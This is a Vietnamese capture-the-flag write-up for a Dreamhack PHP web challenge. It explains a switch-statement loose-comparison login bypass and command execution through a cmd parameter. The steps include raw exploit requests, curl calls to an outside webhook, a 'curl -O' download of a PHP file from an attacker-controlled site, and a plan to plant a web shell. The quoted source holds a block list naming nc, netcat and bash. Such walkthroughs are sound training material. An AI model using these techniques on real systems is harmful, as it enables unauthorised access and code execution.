





# Loose Comparsion & Command Injection

**Tên challenge:** Switching Command

**Link challenge:** [Here](https://dreamhack.io/wargame/challenges/1081)

**Tác giả challenge:** Dreamhack

**Mục tiêu challenge:** Not Friendly service... Can you switching the command?


**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge sẽ cung cấp cho ta 1 Source Code và Link Website, trước tiên ta truy cập vào Website thì trang Web yêu cầu ta input `username`:



Ta thử input đại 1 tên nào đó thì trang Web lại trả về dòng text: 
```
Failed to parse JSON data
```
Xem ra, ta cần phải POST theo dạng JSON data để có thể đi đến bước tiếp theo nhưng để hiểu rõ hơn cách Website vận hành thì ta sẽ bắt đầu nghiên cứu đến Source Code.

**B2:** Ta bắt đầu phân tích những file thực sự quan trọng và có ảnh hưởng đến Challenge này trong Source Code:
1. `index.php`:
```php
<?php
include ("./config.php");
include("./config/db_config.php");

$message = "";

if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }
        
    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
            
    }
}
?>
```
**Giải thích:**
* Nếu phương thức request là `POST`, code sẽ lấy dữ liệu từ `$_POST["username"]` và giải mã từ JSON. Nếu việc giải mã JSON thất bại, chương trình dừng và xuất thông báo lỗi `Failed to parse JSON data`.
* Sau đó, nếu vượt qua được quá trình giải mã JSON thì code sẽ lấy giá trị của thuộc tính `username` từ dữ liệu JSON gán vào biến `$username`.
* Kế đến lại kiểm tra xem liệu giá trị của `$username` có phải là `admin` không. Nếu phải thì chương trình sẽ dừng và in ra thông báo `no hack`.
* Tiếp theo lại đưa biến `$username` vào Switch để xử lý:
    * Nếu `$username` khớp với `admin` thì thực hiện truy vấn vào cơ sở dữ liệu với tài khoản `admin`. 
    * Nếu truy vấn trả về đúng 1 dòng (nghĩa là xác thực thành công), gán phiên `$_SESSION["auth"] = "admin"` và chuyển hướng đến `test.php`.
    * Nếu không thành công, gán thông báo lỗi vào `$message`.   
    * Ở `Switch Default` thì với bất kỳ giá trị nào khác, gán phiên là `guest` và chuyển hướng đến `test.php`.

2. `test.php`:
```php
<?php

include ("./config.php");

$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
else if($_SESSION["auth"]=== "guest") {

    $command = "echo hi guest";
    $result = shell_exec($command);

}

else {
    $result = "Authentication first";
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Command Test</title>
</head>
<body>
    <h2>Command Test</h2>
    <?php
    echo "<pre>$result</pre>";
    ?>
</body>
</html>
```
**Giải thích:**
* Đấu tiên, code định nghĩa biểu thức chính quy `$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i'`:
    * Biểu thức này dùng để kiểm tra xem chuỗi `cmd` có chứa các từ khóa nguy hiểm là `flag, nc, netcat, bin, bash, rm, sh` hay không.
* Sau đó, kiểm tra quyền truy cập của người dùng:
    * Nếu `$_SESSION["auth"] === "admin"`: Lấy giá trị của parameter `cmd` từ request URL của người:
    * Nếu parameter `cmd` từ URL có giá trị thì `$command` sẽ được gán giá trị đó, ngược lại thì `$command` sẽ có giá trị là `ls`.

* Bước kế tiếp, code sẽ xử lý chuỗi giá trị trong biến `$command` (`$sanitized_command = str_replace("\n","",$command)`):
    * Cụ thể là đoạn code sẽ loại bỏ ký tự xuống dòng để tránh chèn lệnh phụ không mong muốn.
* Sau đó lại tiếp tục kiểm tra nội dung `$command`:
```php
if (preg_match($pattern, $sanitized_command)){ exit("No hack"); }
```

Nếu lệnh chứa bất kỳ từ khóa bị cấm mà ta đề cập ở trên thì, chương trình dừng và xuất thông báo `No hack`.

* Cuối cùng, thực thi lệnh shell `$resulttt = shell_exec(escapeshellcmd($sanitized_command))`:
    * `$command` được `escape` để loại bỏ các ký tự đặc biệt và sau đó được thực thi bằng `shell_exec()`.
    * Kết quả được lưu vào biến `$resulttt`.

Ngược lại, nếu `$_SESSION["auth"] === "guest"` thì chỉ thực thi lệnh command `echo hi guest` và kết quả được lưu vào `$result`

Ngoài ra, nếu chưa xác thực thì biến `$result = "Authentication first"` và in ra màn hình.

Ở đoạn code `echo "<pre>$result</pre>";`, ta có thể thấy là nếu ta vượt qua các điều kiện ở xác thực là `admin` thì output từ lệnh được thực thi ở phần `admin` sẽ không được in ra vì kết quả output của lệnh được lưu ở biến `$resulttt`, còn ở phần in ra kết quả ở html thì lại là biến `$reulst`.

**B3:** Bây giờ, ta đã nắm rõ quy trình của code rồi, ta sẽ tiến hành bắt lại gói tin POST khi nãy và chỉnh nó thành dạng JSON như sau:
```
POST /index.php HTTP/1.1
Host: host1.dreamhack.games:20083
Content-Length: 29
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host1.dreamhack.games:20083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:20083/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=bb129b1c05eab970f04de3114388db89
Connection: keep-alive

username={"username":"admin"}
```
Ta sẽ nhận được response là:
```
no hack
```
=> Xem ra phần gói JSON của ta đã được decode thành công.

**B4:** Bước tiếp theo là làm sao để ta có thể nhập `admin` để vượt qua được Switch Case `admin` mà có thể thoả điều kiện:
```
if($username === "admin" ){
        exit("no hack");
    }
```
Sau khi thử vài giả thuyết thì ta phát hiện ở `Switch Case` chỉnh là điểm ta có thể lợi dụng `Loose Comparsion` và để hiểu rõ hơn hãy xem ví dụ dưới đây:
```php
$value="hello";
switch ($value) {
    case 'admin' :
        echo 'true';
        break;
    default :
        echo 'default';
        break;
}

# Đoạn code trên sẽ tương đương với:
$value="hello";
if ($value == "admin")
{
    echo 'true';
}
```
Và điểm mấu chốt chính là dấu `==` có thể xảy ra lỗ hổng `Loose Comparsion`. Vậy câu hỏi ở đây là `$value` phải mang giá trị gì ngoài từ `admin` để có thể in ra được chữ `true`.
* **Trả lời:** Ta có thể ép kiểu boolean để vượt qua kiểm tra này.
```php
<?php 
$value=true;
switch ($value) {
    case 'admin' :
        echo 'one';
        break;
    default :
    
        echo 'default';
        break;
}

if ("admin"==true) echo "two";

# Output:
onetwo
```
Vậy là ta đã biết cách để có thể `Authentication` với tư cách là `admin` mà không cần nhập từ `admin`.

**B5:** Ta đổi giá trị `username` trong gói tin POST thành `true`:
```
POST /index.php HTTP/1.1
Host: host1.dreamhack.games:13706
Content-Length: 29
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host1.dreamhack.games:13706
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:13706/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=536ba4556290950c6a2a852dd00ba0bd
Connection: keep-alive

username={"username":true}
```
Và response ta nhận được là:

Đúng như dự đoán, ta sẽ không thể thấy dòng nào cả vì biến `$result` ở tag `html` chẳng có giá trị do biến lưu giá trị ở phần `admin` là `$resulttt`.

**B6:** Ta thử thêm parameter `cmd` vào URL và để kiểm tra xem liệu Command có được thực thi không thì ta sẽ dùng lệnh `curl` đến Webhook bên ngoài của ta `cmd=curl Webhook_cua_ta`.



Ta thử kiểm tra lại Webhook:



=> Tới đây, ta có thể kết luận là ta đã được Authentication với tư cách là `admin` và ngoài ra ta có thể dùng được lệnh `curl`

Kế tiếp, làm sao để đọc được `Flag`?
* **Trả lời:** Như ta đã biết thì ta không thể tạo `Reverse Shell` do đã bị filter, ngoài ra ta cũng chẳng thể dùng cách nối dài câu lệnh vì Web đã escape các ký tự như: `; | & %`,...
* Như đã biết, ta có thể dùng lệnh `curl` trên Website, vậy thì ta sẽ thử upload 1 file php từ bên ngoài vào Website, sau đó ta sẽ thử truy cập file php đó, nếu file đó có tồn tại thì chứng tỏ ta có thể tạo 1 Web Shell để lấy `Flag`.

**B7:** Ta sẽ thử giả thuyết trên:

Đầu tiên, ta sẽ tạo 1 file `hello.php` với nội dung là:
```
<?php phpinfo(); ?>
```
```
$> echo "<?php phpinfo(); ?>" > hello.php

$> ls -la
total 50
drwxr-xr-x  9 root root   4096 Feb 14 04:43 .
drwx------ 25 root root   4096 Feb 14 04:42 ..
-rw-r--r--  1 root root     20 Feb 14 04:43 hello.php
```

Sau đó, ta sẽ đưa file này lên Website của ta rồi quay lại Website dùng lệnh sau để Download file đó từ Web của ta lên Web Challenge:
```
curl -O Web_cua_ta/hello.php
```

Tiếp theo, ta sẽ thử truy cập `/hello.php` để xem liệu giả thuyết của ta có đúng không:



=> Vậy là giả thuyết của ta đã thành công.

Giờ thì, chỉ cần làm tương tự và sửa nội dung thành Web Shell là ta sẽ lấy được `Flag.`
